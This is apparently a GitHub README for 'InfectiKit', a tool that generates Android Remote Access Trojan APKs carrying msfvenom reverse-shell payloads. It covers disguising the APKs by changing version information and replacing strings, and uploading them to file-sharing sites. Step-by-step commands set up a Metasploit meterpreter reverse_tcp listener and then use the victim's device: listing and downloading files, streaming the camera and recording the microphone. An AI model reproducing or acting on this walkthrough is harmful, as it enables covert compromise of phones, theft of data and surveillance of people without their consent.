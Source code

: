 # **InfectiKit - Android RAT (Remote Access Trojan)**

**InfectiKit** is a powerful tool designed for creating and managing Android RATs (Remote Access Trojans), allowing users to generate malicious APKs with reverse shell payloads using **msfvenom**. It also includes features for modifying APK files, such as changing version information and replacing strings, as well as uploading generated files to file-sharing services. This tool integrates with **Metasploit** to facilitate penetration testing and educational purposes related to Android security.

---

## **Features**
- **Generate Android RAT APKs**: Create custom Trojan APKs with reverse shell payloads using **msfvenom**.
- **Modify APK Version Information**: Change the `versionName` and `versionCode` in APK files.
- **Replace Strings in APK**: Replace specific strings in APK files for further customization.
- **Upload Files**: Upload generated APK files to file-sharing services like **transfer.sh** or **file.io**.

---

### Step 1: **Installation Process**

1. **Clone the repository** from GitHub:

    ```bash
    git clone https://github.com/manojxshrestha/InfectiKit.py.git
    ```

2. **Change to the project directory**:

    ```bash
    cd InfectiKit.py
    ```

### Step 2: **Set Up a Virtual Environment (Optional but Recommended)**
Creating a virtual environment for this project helps manage dependencies and avoid conflicts with your global Python packages.

1. **Create a virtual environment**:

    ```bash
    python3 -m venv infectikit-env
    ```

2. **Activate the virtual environment**:

    - On Linux/macOS:

      ```bash
      source infectikit-env/bin/activate
      ```

    - On Windows:

      ```bash
      .\infectikit-env\Scripts\activate
      ```

   Once activated, your prompt should change to `(infectikit-env)` indicating that you're working inside the virtual environment.

### Step 3: **Install Dependencies**
Since the `InfectiKit.py` repository may not include a `requirements.txt` file, you need to manually create one to install the necessary Python dependencies.

1. **Create the `requirements.txt` file** with the following content:

    ```bash
    nano requirements.txt
    ```

    Add these lines to the file:

    ```
    requests
    Pillow
    ```

    Save the file by pressing `CTRL + X`, then `Y`, and `Enter`.

2. **Install the dependencies** by running:

    ```bash
    pip install -r requirements.txt
    ```

### Step 4: **Run the Tool**
Once the dependencies are installed, you can run the `InfectiKit.py` tool.

1. **Run the tool** with the following command:

    ```bash
    python3 InfectiKIt.py
    ```

2. The tool will start, and you’ll be presented with a menu to choose from various actions (e.g., generate APK, modify APK version, etc.).

### Step 5: **Follow On-Screen Instructions**
After running the tool, follow the on-screen instructions to use the tool effectively.

- You’ll likely be asked for input such as:
  - **Local IP Address and Port** to create a trojan APK using `msfvenom`.
  - Various modifications like changing the version or replacing strings in the APK.

---

### Step 5. **Deploy the APK**

### **Set Up the Listener (Metasploit)**
If the APK was created to generate a reverse shell (using `msfvenom`), you need to set up a **listener** to handle the connection.

#### ** 1aunch Metasploit Framework:**
Start Metasploit:
```bash
msfconsole
```

#### ** Set Up the Listener:**
 Use the **multi/handler** module:
   ```bash
   use exploit/multi/handler
   ```
 Set the payload to match the one used in your APK:
   ```bash
   set payload android/meterpreter/reverse_tcp
   ```
 Set the **LHOST** (local IP) and **LPORT** (port) values:
   ```bash
   set LHOST 192.168.18.88  # Replace with your local IP
   set LPORT 4444           # Use the same port you specified
   ```
 Start the listener:
   ```bash
   exploit
   ```

---

### **Trigger the APK**
Once the APK is installed and opened on the target device, it will attempt to connect back to the Metasploit listener. If the connection is successful, you’ll see a `meterpreter` session in Metasploit.

---

### Step 6. **Interact with the Target**
After gaining a session, you can interact with the target device. For example:
- List files:
  ```bash
  meterpreter > ls
  ```
- Access the camera:
  ```bash
  meterpreter > webcam_stream
  ```
- Record audio:
  ```bash
  meterpreter > record_mic
  ```
- Download files:
  ```bash
  meterpreter > download /sdcard/filename
  ```
  
### Troubleshooting
If you run into any errors or issues:
- Ensure that all dependencies are installed correctly.
- If any part of the script throws an error, check the Python version (`python3 --version`) and make sure you're running the script within the virtual environment.

---

This should be enough to get the tool up and running!
